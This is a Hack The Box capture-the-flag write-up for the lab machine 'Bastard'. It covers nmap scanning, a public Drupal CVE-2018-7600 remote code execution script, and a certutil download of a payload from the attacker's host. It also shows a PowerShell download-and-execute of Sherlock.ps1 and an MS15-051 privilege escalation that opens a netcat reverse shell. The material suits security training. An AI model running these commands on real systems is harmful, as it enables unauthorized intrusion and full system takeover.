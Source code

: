 ﻿### HTB Bastard   10.10.10.9

Welcome back.  This run is going to be on the HTB machine called "Bastard".

Once again, my favorite nmap stuff.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.9                          
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 04:36 EST
Nmap scan report for 10.10.10.9
Host is up (0.043s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 93.27 seconds
                                                                                                                                 
(kali@kali)-$ sudo nmap -A -p 80,135,49154 10.10.10.9                                                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 04:39 EST
Nmap scan report for 10.10.10.9
Host is up (0.045s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   49.64 ms 10.10.14.1
2   49.65 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.84 seconds
```

Looks like we have a couple ports.  First and foremost, we're going to take a look at the port 80, a webpage.  Let's see what we have there.

![webpage](/Images/HTB7Bastard/pic1.png)

So we have a pretty normal looking webpage.  First I tried to see what I could do with the website, even ran dirbuster for a bit to see if anything showed up.  Nothing really with dirbuster and trying to create an account requires a valid email to verify the account.  Not doing that, so what now.

Let's take a look at our wappalyzer.

![wappalyzer](/Images/HTB7Bastard/pic2.png)

Oh, would you look at that, an older version of Drupal.  We also have PHP running so that might come in handy later.  Lets see what we can do with drupal first though.

Some online looking and I find CVE-2018-7600 which is an RCE vulerability within Drupal 7.  Copy and paste it into a file to use, make sure you have the requirements needed, and off we go.  We can now run whatever command we want.

```
(kali@kali)-$ python3 44449.py http://10.10.10.9 -c "whoami"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-9zW4TvyxBXU8a9XaVwtidpw4j9OKjAqcmJdfxrD97j4
[*] Triggering exploit to execute: whoami
nt authority\iusr

```

With this we can use msfvenom to craft an exploit and then use this drupal exploit to upload and run it.  Also, notice it's `iusr` and not `system` so we don't have full control yet.

```
(kali@kali)-$ python3 44449.py http://10.10.10.9 -c "certutil.exe -urlcache -f http://10.10.x.x/shell.exe shell.exe"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-jKuI8GmkHGhmEcEQ0PivluXBvtSyRcM-hUbIs4qNCRg
[*] Triggering exploit to execute: certutil.exe -urlcache -f http://10.10.x.x/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

                                                                                                                                 
┌──(kali@kali)-[~/Documents/HTB Bastard]
└─$ python3 44449.py http://10.10.10.9 -c "shell.exe"                                                       

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-DZtqdeKNbpUodK05ubSyeg3_a6-PO-aHhJPUbgg1H5s
[*] Triggering exploit to execute: shell.exe
```

![whoami](/Images/HTB7Bastard/pic3.png)

Again, this doesn't let us into the Admin stuff but we can grab the user flag at this point.

![whoami](/Images/HTB7Bastard/pic4.png)

Now that we've gotten here, let's escalate this bish!

Going to use `Sherlock.ps1` to see what we've got here.  In order to do that we'll need to modify it a bit, upload it, and then run it.

First, the modification.

So locate the Sherlock file and go to it.  I had mine in some pre-installed tools, `powershell-empire` in the /usr/bin folder.  Using gedit to open Sherlock.ps1, and add the following to the bottom of the file.

`Find-AllVulns`

That goes in all the way at the bottom of the file and will now allow us to use this script to run instead of just loading it and waiting for a command.

Once that's done, we start up and http server with python from that folder, then we use the following command from book.hacktricks.xyz.

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.x.x:80/Sherlock.ps1') | powershell -noprofile -`

This is a "download and execute" command.  Running that gives us some items to look at.

![Sherlock results](/Images/HTB7Bastard/pic5.png)

Look this up online and we see right off hand that this module requires metasploit.  Good thing it already comes installed on Kali.  But, we're gonna go the manual route.  So a google search for MS15-051 returns a github repository for windows kernel exploits.

With this one, we have to do a few things.  MS15-051 allows us to execute a command as NT AUTHORITY/SYSTEM.  So, we're going to upload it along with netcat in order to pop a shell from that device.

We moved the ms15-051x64.exe file and nc.exe over to a folder where we use python to host a web server.  Then use `certutil` to download those files to the victim machine.

Once we do that, we start up a listener on our device and then use the exploit file along with netcat in order to get our shell going.

```
C:\inetpub\drupal-7.54>ms15-051x64.exe "nc.exe 10.10.x.x 7777 -e cmd.exe"
ms15-051x64.exe "nc.exe 10.10.14.31 7777 -e cmd.exe"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2724 created.
```

![Full Pwnage](/Images/HTB7Bastard/pic6.png)

So, here we are with another box completed.  This one was a little tougher.  Had to use the reference video a couple of times.  There are some items that seem would not work (again, I tried to look at some items earlier with the website itself before going down this route and there are a couple options for ms15-051 before getting one that did work).  Always always try different items.  Where one might not work, others could very well work.

Thanks for tagging along :D ^.^